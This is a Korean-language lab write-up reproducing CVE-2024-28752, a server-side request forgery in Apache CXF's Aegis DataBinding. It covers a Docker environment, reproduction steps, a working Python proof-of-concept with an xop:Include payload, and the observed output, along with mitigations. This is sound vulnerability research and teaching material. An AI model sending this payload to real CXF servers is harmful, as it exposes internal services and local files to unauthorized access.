





# Apache CXF Aegis DataBinding SSRF (CVE-2024-28752)

Contributors

- [@YHS-Sec](https://github.com/YHS-Sec)

## 취약점 요약

CVE-2024-28752는 Apache CXF의 Aegis DataBinding에서 발생하는 SSRF 취약점이다. SOAP 요청의 `xop:Include`에 URL을 넣으면 CXF 서버가 해당 주소로 직접 요청을 보낸다. 이를 이용해 내부 서비스에 접근하거나 서버의 로컬 파일을 읽을 수 있다.

기본 DataBinding은 영향을 받지 않으며, 이번 실습에서는 취약한 Apache CXF 3.2.14와 Aegis DataBinding을 사용했다.

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2024-28752 |
| 취약점 | SSRF (CWE-918) |
| 실습 버전 | Apache CXF 3.2.14 |
| Risk Score | 9.3 / 10.0 |

> 허가받지 않은 시스템에는 사용하지 않는다.

## 환경 구성

```text
CVE-2024-28752/
├── images/
├── src/main/java/
├── Dockerfile
├── docker-compose.yml
├── pom.xml
├── poc.py
└── README.md
```

외부에서 만들어 둔 취약 이미지를 사용하지 않고, Docker 빌드 과정에서 CXF 3.2.14 서비스를 직접 빌드한다. Compose에는 다음 두 서비스가 실행된다.

- `cxf`: Aegis DataBinding을 사용하는 취약한 SOAP 서비스
- `listener`: CXF가 보낸 내부 요청을 기록하는 확인용 서버

두 서비스는 같은 로컬 빌드 이미지를 사용한다. CXF는 호스트의 `127.0.0.1:8082`에서 접속할 수 있고, `listener`는 Docker 내부에서만 접근할 수 있다.

## 취약 조건

- Apache 공식 공지의 수정버전인 3.5.8, 3.6.3, 4.0.4보다 이전 버전을 사용한다.
- 웹 서비스가 Aegis DataBinding을 사용한다.
- 공격자가 SOAP 서비스에 요청을 보낼 수 있다.
- 서비스가 입력 매개변수를 하나 이상 처리한다.

실습 환경에서는 다음 코드로 Aegis DataBinding을 지정했다.

```java
factory.setDataBinding(new AegisDatabinding());
```

## 재현 절차

### 1. 환경 실행

```bash
docker compose up --build --wait -d
docker compose ps
```

두 컨테이너가 `healthy`로 표시되면 준비가 끝난 것이다.



### 2. WSDL 확인

브라우저에서 다음주소에 접속한다.

```text
http://127.0.0.1:8082/test?wsdl
```



### 3. PoC 실행 전

```bash
docker compose logs listener
```

아직 요청이 없으므로 시작 메시지만 출력된다.



### 4. PoC 실행

```bash
python poc.py
```

응답에서 `HTTP 200`과 `YHS-Sec-CVE-2024-28752` 문자열을 확인했다.



### 5. 내부 요청 확인

```bash
docker compose logs listener
```

`Received: GET /YHS-Sec-CVE-2024-28752`가 추가되면 SSRF 요청이 발생한 것이다.



## PoC 코드

별도패키지 없이 Python 기본 라이브러리만 사용했다.

```python
import http.client

boundary = "----cve-2024-28752"
body = f"""--{boundary}\r
Content-Disposition: form-data; name="request"\r
\r
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
  <soapenv:Header/>
  <soapenv:Body>
    <web:test>
      <arg0>
        <content xmlns="http://DefaultNamespace"><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="http://listener:8000/YHS-Sec-CVE-2024-28752"/></content>
      </arg0>
    </web:test>
  </soapenv:Body>
</soapenv:Envelope>\r
--{boundary}--\r
""".encode()

headers = {"Content-Type": f"multipart/related; boundary={boundary}"}
connection = http.client.HTTPConnection("127.0.0.1", 8082)
connection.request("POST", "/test", body, headers)
response = connection.getresponse()

print("HTTP", response.status)
print(response.read().decode())
```

## 실행 결과

PoC는 호스트에서 CXF 서비스로만 요청을 보냈지만, Docker내부의 `listener:8000`에 다음 요청이 도착했다.

```text
HTTP 200
<return>YHS-Sec-CVE-2024-28752</return>

Received: GET /YHS-Sec-CVE-2024-28752
```

따라서 CXF 서버가 `href`에 지정된 내부 주소로 요청을 보낸것을 확인할수 있다.

## 위험도

NVD에 표시된 CISA-ADP CVSS 3.1 점수는 **9.3점**이다.

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:N
```

인증 없이 원격 요청이 가능하고, 내부 서비스나 로컬 파일이 노출될 수 있으므로 Risk Score를 **9.3/10.0**으로 작성했다.

## 대응 방안

- Apache CXF 3.5.8, 3.6.3, 4.0.4 이상으로 업데이트한다.
- 업데이트가 어렵다면 Aegis 대신 기본 DataBinding을 사용한다.
- 방화벽으로 CXF 서버의 불필요한 외부 요청을 제한한다.
- 비정상적인 `xop:Include`와 `href` 요청을 탐지한다.

## 재현성 및 종료

이미지는 로컬에서 직접 빌드하고, healthcheck로 서비스 준비 상태를 확인한다. PoC에도 추가 패키지가 필요하지 않아 예상 Reproducibility는 **95%**로 판단했다.

```bash
docker compose down -v --remove-orphans
```

## 참고 자료

- [Apache CXF 공식 시큐리티ㅣ 공지](https://cxf.apache.org/security-advisories.data/CVE-2024-28752.txt)
- [NVD - CVE-2024-28752](https://nvd.nist.gov/vuln/detail/CVE-2024-28752)
- [Apache CXF 수정 커밋](https://github.com/apache/cxf/commit/f973751b67f79ea2b53fabb2f1762214b7d07131)
- [Vulhub CVE-2024-28752](https://github.com/vulhub/vulhub/tree/master/apache-cxf/CVE-2024-28752)